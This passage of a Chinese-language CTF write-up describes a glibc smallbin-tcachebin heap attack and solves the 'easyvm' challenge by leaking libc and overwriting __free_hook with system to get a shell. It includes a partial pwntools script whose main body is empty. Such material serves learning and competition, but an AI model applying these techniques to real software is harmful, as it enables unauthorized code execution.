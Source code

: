 ### 补充
遍历 `unsorted bin` 前，会先遍历`fastbin`，`smallbin`里堆块。

在libc-2.27、2.29、2.30等`glibc`里，有一种`smallbin-tcachebin`的攻击方法，它可以把一块**可控内存**存入`tcachebin`中。
首先，对应的 `tcachebin` 和 `smallbin` 分别存入**5**个和**2**个。
将`smallbin`的第一个堆块的`bk`地址写入伪造的堆块的`fd`，伪造的堆块的`bk`写入一个存在的地址（如果想要泄露`libc`地址，可以写入一个**可读地址-0x10**的地址）。

![image_1e3mch0hn1e5o1fqo1g8egom34h9.png-427.8kB][12]
上图第一个粉红荧光，仅判别了`smallbin`最后一个堆块，即被申请的堆块。第二个粉红荧光，在剩余堆块存入`tcachebin`前，`bin`(libc 里的索引指针）存入前向堆块的`fd`处。

## easyvm
### 解题思路

逆向分析32位程序，发现大概模拟了系统寄存器，`ptr[8]`是`pc`命令计数器，`ptr[6]`是`esp`寄存器。
首先，使用选项4后，选项1、2可以泄露**初始偏移**。

其次，由于`putchar()`只能读一字节，所以可以同时执行四次就可以打印出任意地址的值了。定位了got的地址，泄露出`__libc_start_main` 的地址，来计算出`libc`的偏移。算出`__free_hook`和`system`地址。

然后，通过`getchar()`一次写一字节，将`system`地址写入`__free_hook`中。

最后，控制`free`堆块内容，在ptr[0]中写入字符串`sh`，触发选项3。

### exp
只有`context.log_level = "debug"`下无阻塞的运行成功。
其他模式，需要在`add()`函数里添加`sleep(0.1)`

```py
from pwn import *
import sys
import time
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"

filename = './EasyVM'
elf = ELF(filename)
libc = ELF('libc-2.23.so')

if len(sys.argv) == 1:
        p = process(filename)
else:
        p = remote(sys.argv[1], int(sys.argv[2]))

def sla(x, y):
    return p.sendlineafter(x, y)


def add(content):
    sla('>>> \n', '1')
    sleep(0.1)
    p.send(content)

def command():
    p.recvuntil('>>> \n')
    sleep(0.1)
    p.sendline('2')

def recycle():
    sla('>>> \n', '3')

def gift():
    sla('>>> \n', '4')

if __name__ == "__main__":
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png